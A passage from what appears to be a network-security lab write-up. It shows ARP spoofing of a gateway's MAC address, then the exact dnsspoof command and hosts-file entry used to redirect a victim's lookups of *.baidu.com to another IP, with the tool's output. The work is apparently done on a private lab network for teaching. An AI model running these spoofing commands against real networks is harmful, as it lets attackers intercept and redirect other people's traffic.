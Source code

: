 <div style="text-align: center;">
<img src="/assets/images/sec/netsec/lab2/arping.png" width="80%" style="margin: 0 auto;">
</div>

We can see that the vm is replying host with wrong MAC address which point to itself. So then 172.20.10.1's MAC address will point to the vm:

<div style="text-align: center;">
<img src="/assets/images/sec/netsec/lab2/arp.png" width="80%" style="margin: 0 auto;">
</div>

We can see that the MAC address of 172.20.10.1 is successfully modified to `0:1c:42:ae:51:ae` which is the same as 172.20.10.6.

### DNS Spoofing

With the `arpspoof` running, we can run `dnsspoof` at the same time to reply wrong DNS result. Write `10.10.10.3 *.baidu.com` to `dnsspoof.hosts` and then run `dnsspoof`:

```text
❯ sudo dnsspoof -i enp0s5 -f dnsspoof.hosts host 172.20.10.2 and udp port 53
dnsspoof: listening on enp0s5 [host 172.20.10.2 and udp port 53]
```

Then `ping www.baidu.com` in the host, we can find that the ip address of www.baidu.com is resolved to 10.10.10.3:

<div style="text-align: center;">
<img src="/assets/images/sec/netsec/lab2/dns.png" width="80%" style="margin: 0 auto;">
</div>

And we can find a DNS log of `dnsspoof`:

```text
❯ sudo dnsspoof -i enp0s5 -f dnsspoof.hosts host 172.20.10.2 and udp port 53
dnsspoof: listening on enp0s5 [host 172.20.10.2 and udp port 53]
172.20.10.2.62144 > 172.20.10.1.53:  17469+ A? www.baidu.com
```

So the ARP spoofing attack and DNS spoofing attack is succeed.